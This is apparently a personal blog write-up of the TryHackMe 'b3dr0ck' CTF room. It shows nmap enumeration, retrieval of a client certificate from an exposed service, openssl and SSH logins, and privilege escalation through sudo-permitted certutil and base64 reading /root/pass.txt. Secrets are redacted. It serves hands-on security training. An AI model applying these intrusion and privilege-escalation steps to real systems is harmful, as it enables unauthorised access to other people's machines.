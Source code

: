 ```yaml
---
title: "b3dr0ck"
date: 2025-02-13
image: /assets/img/tryhackme/Bedrock_image.jpg
description: Writeup of the TryHackMe-CTF b3dr0ck
categories: [Tryhackme, Easy]
tags: [linux, certificates, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>b3dr0ck</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Server trouble in Bedrock.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/b3dr0ck">https://tryhackme.com/room/b3dr0ck</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge b3dr0ck.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.58.21                                 
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 12:36 EST
  Nmap scan report for 10.10.58.21
  Host is up (0.047s latency).
  Not shown: 65530 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  4040/tcp  open  yo-main
  9009/tcp  open  pichat
  54321/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash

```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Accessing port 80 with a web browser redirects me to port 4040 and showed me the following message:

```text
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

Because of the `OVER 9000` I continued with port `9009`.

## Port 9009 Analysis

The web server timed out, so I tried connecting using `telnet`. The following output has been shortened for better readability:

```bash
$ telnet 10.10.58.21 9009              
Trying 10.10.58.21...
Connected to 10.10.58.21.
Escape character is '^]'.


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? flag
Sorry, unrecognized request: 'flag'

You use this service to recover your client certificate and private key
What are you looking for? private key
Sounds like you forgot your private key. Let's find it for you...

-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----

What are you looking for? public
Sounds like you forgot your certificate. Let's find it for you...

-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----
```

I stored the certificates on my machine and continued with the last port.

## Port 54321 Analysis

The webserver gave me the following error message:
```text
Gave me: `Error: 'undefined' is not authorized for access.` Probably we need the cert?
```

That's interesting because we already received a certificate pair. I tried to connect to the server using `openssl` with success:
```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey -key privkey
```
The output is quite long, so I reduced it for readability:
```bash
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> flag
Unrecognized command: 'flag'

This service is for login and password hints
b3dr0ck> password hints 
Password hint: [removed] (user = 'Barney Rubble')
b3dr0ck> login
Login is disabled. Please use SSH instead.
```

After several attempts to crack the string, I decided to use it as a password and successfully connected via `ssh`. 

## Privilege Escalation Fred

Because I have a valid username and password pair I was able to execute `sudo -l`:

```bash
$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

There is likely a certificate stored for Fred:

```bash
barney@b3dr0ck:~$ cat /etc/passwd | grep fred
	fred:x:1000:1000:Fred Flintstone:/home/fred:/bin/bash
barney@b3dr0ck:~$ sudo certutil fred "Fred Flintstone"
  Generating credentials for user: fred (Fred Flintstone)
  Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
  Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----

```

Let's apply the same approach used for Barney's certificate:

```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey2 -key privkey2
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> hint
Password hint: [removed] (user = 'Fred Flintstone')
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck>

$ ssh fred@10.10.58.21            
fred@10.10.58.21's password: 
fred@b3dr0ck:~$
fred@b3dr0ck:~$ cat fred.txt 
THM{[removed]}
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
red@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

I then proceeded to execute the `base64` command with sudo:

```base64
fred@b3dr0ck:~$ sudo /usr/bin/base64 /root/pass.txt | base64 -d
[removed]
```

At this point, I used `CyberChef` and `Crackstation` to analyze the string:

![Root Password](/assets/img/tryhackme/Bedrock/thm_bedrock_1.jpg)

```base64
fred@b3dr0ck:~$ su root
	Password: 
root@b3dr0ck:/home/fred# cd /root
root@b3dr0ck:~# ls
	pass.txt  root.txt  snap
root@b3dr0ck:~# cat root.txt
THM{[removed]}
```

solved! :)
